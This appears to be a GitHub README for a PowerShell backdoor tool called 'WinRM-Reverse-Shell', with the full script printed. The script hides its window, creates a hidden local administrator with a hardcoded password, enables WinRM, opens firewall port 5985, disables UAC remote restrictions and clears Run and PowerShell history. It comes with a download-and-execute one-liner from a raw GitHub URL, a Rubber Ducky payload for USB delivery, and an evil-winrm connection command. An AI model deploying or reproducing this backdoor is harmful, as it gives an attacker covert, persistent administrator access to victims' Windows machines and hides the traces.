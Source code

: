 # WinRM-Reverse-Shell
+ Works on Windows 10/11
+ Needs To be connected to the same internet

# Own Pass And Name
Go to `WinRM.ps1` and edit 
+ $Username = "`TO YOUR OWN`"
And for the pass edit
+ $Password = ConvertTo-SecureString "`TO YOUR OWN`" -AsPlainText -Force

# Powershell One liner with administrator permissions
`IEX (IWR "https://raw.githubusercontent.com/VBV11/WinRM-Reverse-Shell/main/WinRM.ps1")`
# How to get the shell using Evil-WinRM
Use this command 
`evil-winrm -i YOUR.IP.ADDRES.LOL -u Admin -p Password1`
# ![Screenshot_2024-02-25_13-40-13 (1)](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/446782ec-8fcf-46ac-adf1-10f54711bf73)

# Rubber Ducky payload
### The payload is in this repo aswel 
+ Edit your own speed of the payload
+ You can change to URL to your own 



https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/fa37438d-69cc-4969-8866-dc02a3437dec



# Script into pieces
## Function to hide a window
function Hide-Window {
    param(
        [IntPtr]$Handle = (Get-Process -PID $PID).MainWindowHandle
    )
    Add-Type @"
    using System;
    using System.Runtime.InteropServices;

    public class Window {
        [DllImport("user32.dll")]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetConsoleWindow();
    }
"@
    [void][Window]::ShowWindow($Handle, 0)
}

## Hide the current PowerShell window
Hide-Window

## Create a new local user account
$Username = "Admin"
$Password = ConvertTo-SecureString "Password1" -AsPlainText -Force
New-LocalUser -Name $Username -Password $Password -PasswordNeverExpires

## Add the newly created user to the local Administrators group
Add-LocalGroupMember -Group "Administrators" -Member $Username

## Enable Windows Remote Management (WinRM)
Enable-PSRemoting -Force

## Add a firewall rule to allow WinRM traffic
New-NetFirewallRule -DisplayName "Windows Remote Management for RD" -Direction Inbound -Protocol TCP -LocalPort 5985 -Action Allow

## Disable UAC remote restrictions
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "LocalAccountTokenFilterPolicy" -Value 1 -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name "Admin" -Value 0 -PropertyType DWORD -Force

## Delete run box history
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -Force

## Delete powershell history
Remove-Item (Get-PSReadlineOption).HistorySavePath

## Exit PowerShell session
Exit

# Credits
### credits TW-D for inspiring me to create this powershell script
